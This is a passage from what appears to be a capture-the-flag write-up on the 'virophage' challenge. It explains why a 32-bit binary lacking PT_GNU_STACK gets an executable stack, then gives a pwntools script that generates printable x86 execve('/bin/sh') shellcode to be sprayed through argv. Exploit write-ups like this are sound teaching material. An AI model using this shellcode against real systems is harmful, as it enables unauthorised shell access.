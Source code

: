 But why did the stack become suddenly `rwx`? Well the kernel decides what permissions the stack will have at load time ([arch/x86/include/asm/elf.h#L288](https://elixir.bootlin.com/linux/v6.3.8/source/arch/x86/include/asm/elf.h#L288)). When the binary is 32-bit and lacks the `PT_GNU_STACK` segment, then the stack is mapped as `rwx` by default.

So, let's exploit these two facts: (1) the stack is `rwx` and (2) we control `argv`, which is placed in the stack. We will spray the stack with our shellcode and then jump to it. Our shellcode will simply pop a shell. Because our shellcode will be placed in `argv`, it has to be almost only printable characters.

[Phrack issue 57](http://phrack.org/issues/57/15.html) has a lot of information on how to create an alphanumeric shellcode for x86. So, based on that, we write our shellcode generator:

```python
# File: shellcode-generator.py
from pwn import *

context.binary = elfexe = ELF('./virophage') # 64-bit

shellcode  = b''
shellcode += b'H'*0x100 # dec eax. nop sled
# shellcode += b'\xcc' # for debugging
shellcode += b'H'
shellcode += asm('''
    xor     edx, edx

    xor eax, eax
    mov al, 0x68
    push ax
    mov ax, 0x732f
    push ax
    mov ax, 0x6e69
    push ax
    mov ax, 0x622f
    push ax

    xor eax, eax
    push eax
    sub esp, 0x40
    lea ebx, [esp+0x44]
    add esp, 0x40
    push ebx

    /* ebx is good */
    mov ecx, esp
    xor     edx, edx    
    mov     al, 0x4b
    sub     al, 0x40
    /* int3 */
    int 0x80
''', arch='i386', bits=32)
for b in shellcode:
    assert(b != 0)

print("export RAW_SHELLCODE=$(echo -n -e '", end='')
for b in shellcode:
    print("\\x{:2x}".format(b),end='')
print("')")
```
